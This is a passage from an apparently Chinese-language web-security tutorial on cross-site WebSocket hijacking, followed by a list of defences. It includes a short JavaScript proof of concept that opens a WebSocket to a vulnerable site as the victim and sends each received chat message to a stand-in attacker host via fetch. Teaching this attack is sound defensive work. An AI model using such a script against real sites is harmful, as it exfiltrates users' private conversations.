 > 注意:`Sec-WebSocket-Key` 请求头包含的随机值主要用于防止代理服务器缓存错误，并且不用于身份验证或会话处理目的。

如果WebSocket握手请求易受CSRF的攻击，则攻击者的网页可以执行跨站点请求，与易受攻击的服务器后端接口建立WebSocket。 攻击中接下来发生的事情完全取决于应用程序的逻辑以及它如何使用WebSockets。 攻击可能涉及：

* 发送WebSocket消息以代表受害用户执行未经授权的操作。
* 发送WebSocket消息以检索敏感数据。
* 有时，可能只需要等待包含敏感数据的消息发送过来。

例如，一个跨站WebSocket劫持读取用户聊天记录的POC如下，用户在建立WebSocket连接后，向服务器发送'READY'字符串，即可接收到服务器传来的历史聊天记录。

```javascript
<html>
<script>
// Create WebSocket connection.
var ws = new WebSocket("wss://vulnerable-site.com/chat");

// Connection opened
ws.addEventListener('open', function (event) {
    ws.send('READY');
});

// Listen for messages
ws.onmessage = function(event) {
  fetch('https://attacker-vps.com/?log'+event.data, {mode: 'no-cors'})
};
</script>
</html>
```

## 防御

* 使用 wss:// 协议
* 硬编码WebSockets的URL接口，以保证用户的输入无法篡改此URL。
* 将通过 WebSocket 接收的数据在两个方向都视为不可信的。在服务器端和客户端安全地处理数据，以防止基于输入的漏洞，如 SQL 注入和跨网站脚本。
* 使用CSRF Token、请求头令牌等方案保护WebSocket握手流程，防止WebSocket握手流程被CSRF攻击所利用。

## 结合

<figure><img src="../.gitbook/assets/WebSocket5.png" alt=""><figcaption></figcaption></figure>
